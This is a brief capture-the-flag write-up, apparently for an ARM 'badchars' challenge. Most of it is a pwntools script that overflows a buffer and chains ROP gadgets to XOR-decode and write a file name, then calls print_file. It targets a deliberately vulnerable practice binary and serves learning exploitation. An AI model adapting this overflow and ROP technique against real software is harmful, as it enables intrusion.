

the challenge check for specific characters to decimate. The solution: hash these character in someway


luckily, the binary provided us gadgets to manipulate registers, to xor r1 with r6 and to store r1 in |r5|

the rest of the challenge should be easy enough

```
#!/usr/bin/python3
from pwn import *

context.os="linux"
context.log_level="debug"

context.binary=exe=ELF("./badchars_armv5-hf")

# p=process(["qemu-arm","-L", "/usr/arm-linux-gnueabihf","-g","1234","./badchars_armv5-hf"])
p=process(["qemu-arm","./badchars_armv5-hf"])

flag=[0x18,0x19,0x50,0x5a,0x57,0x51,0x18,0x42,0x4e,0x42]

buffer=0x24*b"A"
pop_r1r2r4r5r6r7r8iplrpc=0x00010658
eor_r1r1r6_str_r1Ir5I_pop_r0pc=0x0001061c
pwnme=exe.sym["pwnme"]
printfile=exe.plt["print_file"]
addr=0x21800

payload=flat(
    buffer,
    0,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[0],
    0,
    0,
    0x21800+0,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[1],
    0,
    0,
    0x21800+1,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[2],
    0,
    0,
    0x21800+2,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[3],
    0,
    0,
    0x21800+3,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[4],
    0,
    0,
    0x21800+4,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[5],
    0,
    0,
    0x21800+5,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,
    pwnme
)

p.recvuntil("> ")
p.send(payload)

payload=flat(
    buffer,
    0,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[6],
    0,
    0,
    0x21800+6,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[7],
    0,
    0,
    0x21800+7,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[8],
    0,
    0,
    0x21800+8,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    0,

    pop_r1r2r4r5r6r7r8iplrpc,
    flag[9],
    0,
    0,
    0x21800+9,
    0x36,
    0,
    0,
    0,
    0,
    eor_r1r1r6_str_r1Ir5I_pop_r0pc,
    addr,

    printfile
)

p.recvuntil("> ")
p.send(payload)

p.interactive()
```